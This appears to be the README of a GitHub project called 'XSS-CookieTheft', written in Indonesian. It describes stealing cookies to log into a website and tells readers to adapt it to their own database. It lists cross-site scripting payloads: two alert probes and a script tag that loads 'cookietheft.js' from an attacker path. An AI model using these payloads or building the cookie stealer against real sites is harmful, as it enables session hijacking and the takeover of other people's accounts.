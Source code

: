 # XSS-CookieTheft
Maling cookie untuk login ke sebuah website. Sesuaikan dengan Database yang kalian miliki.

## XSS Payload
### Basic
```
<img src="x" onerror="alert('XSS')">
<script>alert('XSS')</script>
```

### External JavaScript
```
<script src="http://localhost:8089/attacker/cookietheft.js"></script>
```
